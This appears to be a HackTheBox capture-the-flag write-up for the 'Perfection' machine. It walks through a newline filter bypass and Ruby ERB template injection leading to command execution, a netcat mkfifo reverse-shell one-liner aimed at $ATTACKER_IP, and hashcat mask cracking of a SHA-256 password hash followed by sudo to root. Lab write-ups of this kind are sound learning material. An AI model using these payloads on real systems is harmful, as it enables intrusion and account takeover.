


## Introduction

-  **Name** : Perfection
-  **Author** : [TheHated1](https://app.hackthebox.com/users/1412009)
-  **Difficulty** : Easy
-  **OS** : Linux

### Description 

Perfection is a new HackTheBox machine and the goal is to calculate students grades.
The box has a vulnerability on the web service. A **SSTI**, based on ruby, can be exploited to get **RCE**. 
For the privilege escalation part, there is a **misconfiguration** on the password policies, and we'll be able to crack *susan*'s password, then get root.


## Enumeration


### Scanning

Let's start with a scan. We'll use **RustScan** with following options : 
```bash
rustscan -a $'IP VICTIM' -r 1-65535 -- -A -oN scan.txt
```

The output : 
```bash
# Nmap 7.93 scan initiated Sat Mar  2 20:05:55 2024 as: nmap -vvv -p 22,80 -A -oN nmap.txt 10.129.104.53
Nmap scan report for 10.129.104.53
Host is up, received echo-reply ttl 63 (0.020s latency).
Scanned at 2024-03-02 20:05:56 CET for 11s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMz41H9QQUPCXN7lJsU+fbjZ/vR4Ho/eacq8LnS89xLx4vsJvjUJCcZgMYAmhHLXIGKnVv16ipqPaDom5cK9tig=
|   256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBqNwnyqGqYHNSIjQnv7hRU0UC9Q4oB4g9Pfzuj2qcG4
80/tcp open  http    syn-ack ttl 63 nginx
|_http-title: Weighted Grade Calculator
| http-methods: 
|_  Supported Methods: GET HEAD
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.0 (99%), Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (94%), Linux 2.6.32 (94%), Linux 5.0 - 5.3 (94%), Linux 5.4 (94%), Linux 5.0 - 5.4 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.1 (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=3/2%OT=22%CT=%CU=43500%PV=Y%DS=2%DC=T%G=N%TM=65E3789F%P=x86_64-pc-linux-gnu)
SEQ(SP=FF%GCD=1%ISR=10E%TI=Z%II=I%TS=A)
SEQ(CI=Z)
OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   16.16 ms 10.10.14.1
2   16.29 ms 10.129.104.53

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  2 20:06:07 2024 -- 1 IP address (1 host up) scanned in 12.51 seconds
```

So, we can see two open ports : **22** and **80**.

### Web enumeration

The ssh service doesn't seem vulnerable.
Go on the website, visit pages and stop on the **Weighted Grade Calculator**.
Try to complete the form like this :


And the output is :


As you can see, the string `Maths`is return, same for `20`.
Maybe, we could inject some malicious code as **XSS** or **SQLi**.
Let's try with **BurpSuite** :


But we have the following response :


I tried all type of char like `&;{}-"=`. Nothing.
We need to find a way to bypass this protection.

### Bypass

Before search bypass tricks, it is important to know which technology is using by the web server.
Thanks to Wappalyzer, we know that is *Ruby*.


Now, go on *Google* and search for bypass tricks about *Ruby*.
We found a useful tricks : `0%A`(backspace with urlencode).

Send the request with **BurpSuite** : 


It works ! So, maybe the restriction can be broke here.
Inject the following code to see if we can use special chars :

```
category1=Maths%0A%3C%21%2D%2D%22%27&grade1=20&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

Let's check : 


The injection works and our code is interpreted (html comment).

## Exploitation

We are able to inject malicious code.
A vulnerability can be exploited here. This is `Server Side Template Injection`(SSTI).

Thanks to [PayloadAllTheThings CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby), we can compromise the web server.

Testing the first payload to see if it is vulnerable : 
``<%= 7 * 7 %>`` 


The output show us ``49`` , so the target is *vulnerable*.

Trying the code execution payloads : 
``<%= `ls /` %>``


Yes, we can execute commands.

Get a reverse shell with the payload of your choice. We'll use :
``rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKER_IP $PORT >/tmp/f``

Setup a listener and wait : 


Upgrade your shell, go to the home directory, and get the first flag !


## Privilege Escalation

We are logged as **Susan**. We know that she is in the sudo group.
Check if we can ``sudo -l``. We need a password.

In home directory, there is a folder named ``Migration`` with a SQL database file.
Transfer the file to our machine and read the database with **SQLite3**.

```bash
sqlite> SELECT * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
sqlite>
```

We can use **JohnTheRipper** or **HashCat** to crack one of this hash but it will be useless.

### Enumeration

For this part, we can enumerate manually *setuid* files, *crontabs*,...
Or you can use tools like **LinPEAS**.

Go on ``/var/mail``. There is a mail for *susan* : 

```txt
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students
in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}
Note that all letters of the first name should be convered into lowercase.
Please hit me with updates on the migration when you can. I am currently registering our university with the platform.
- Tina, your delightful student
```

It is interesting. We know a part of the password.
If **Susan** use this format for her password, we should be able to crack it.

### Exploitation

The *susan*'s password should be : 
``susan_nasus_{random1-1000000000}``

We'll use **Hashcat** with the following rule :

``susan_nasus_?d?d?d?d?d?d?d?d?d``

The goal here is to add random numbers between 0 and 9, nine times.

Use the following syntax : 
``` 
hashcat -a 3 -m 1400 hash custom.rule
```
 - `-a` : Attack mode (BruteForce)
 - `-m`: Hash type (SHA-256, thanks to **haiti**)
 - `custom.rule`: File containing the rule

Now, we need to wait : 

```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a3019934...39023f
Time.Started.....: Tue Mar  5 19:29:09 2024 (1 min, 7 secs)
Time.Estimated...: Tue Mar  5 19:30:16 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Mask.......: susan_nasus_?d?d?d?d?d?d?d?d?d [21]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4871.4 kH/s (1.19ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 324562944/1000000000 (32.46%)
Rejected.........: 0/324562944 (0.00%)
Restore.Point....: 324550656/1000000000 (32.46%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: susan_nasus_354540610 -> susan_nasus_927935210
Hardware.Mon.#1..: Temp: 65c Util: 61%

Started: Tue Mar  5 19:28:40 2024
Stopped: Tue Mar  5 19:30:17 2024
```

We cracked the password ! 
Using *ssh* with **Susan**'s account.

Check the sudo permission.
This following line is interesting : 
```
User susan may run the following commands on perfection:
   (ALL : ALL) ALL
```


Just use ``sudo -i`` to spawn a root shell.


And we obtain the root flag !

## Conclusion

This room was a little bit harder at the beginning because I didn't know how to bypass protection. Then, the SSTI was not obvious for me. But when I found the way, it was really straightforward.

Thanks for reading !
